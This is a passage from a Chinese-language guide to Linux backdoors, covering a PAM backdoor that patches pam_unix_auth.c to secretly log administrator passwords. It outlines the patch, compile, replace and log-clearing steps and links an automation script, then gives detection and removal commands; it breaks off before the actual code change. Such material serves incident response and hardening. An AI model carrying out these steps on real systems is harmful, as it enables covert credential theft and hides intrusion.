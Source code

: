 清除：kill进程、删除文件即可

### 0x10 PAM后门

PAM使用配置 /etc/pam.d/ 下的文件来管理认证方式，应用程序调用相应的配置文件，以加载动态库的形式调用 /lib/security下的模块。

PAM配置可分为四个参数: 模块类型、控制标记、模块路径、模块参数，例如: session required pam_selinux.so open

上面提到的 sshd 软链接后门利用的 PAM 机制达到任意密码登录，还有一种方式是键盘记录。原理主要是通过 pam_unix_auth.c 打补丁的方式潜入到正常的 pam 模块中，以此来记录管理员的帐号密码。

利用步骤：复制patch到源代码目录 >>> 打patch >>> 编译 >>> 将生成的pam_uninx.so文件覆盖到/lib/secruity/pam_unix.so下 >>> 修改文件属性 >>> 建立密码保存文件，并设置好相关的权限 >>> 清理日志 >>> ok

```
#确保ssh开启pam支持 vim /etc/ssh/sshd_config UsePAM yes  
#自动化脚本 https://github.com/litsand/shell/blob/master/pam.sh
```

检测：

```
1、通过Strace跟踪ssh
	ps axu | grep sshd strace -o aa -ff -p PID grep open aa* | grep -v -e No -e null -e denied| grep WR  
2、检查pam_unix.so的修改时间 
	stat /lib/security/pam_unix.so      #32位 
	stat /lib64/security/pam_unix.so    #64位
```

清除：

```
yum reinstall pam
```

手动

1、查看pam版本并下载

```
rpm -qa | grep pam
pam-1.1.8-12.el7_1.1.x86_64
http://www.linux-pam.org/library/
curl -O http://www.linux-pam.org/library/Linux-PAM-1.1.8.tar.gz
```

2、修改并编译pam_unix_auth.c文件

```
cd Linux-PAM-1.1.8
vim modules/pam_unix/pam_unix_auth.c
```

3、pam_unix_auth.c 修改前

```
/* verify the password of this user */
    retval = _unix_verify_password(pamh, name, p, ctrl);
    name = p = NULL;
```
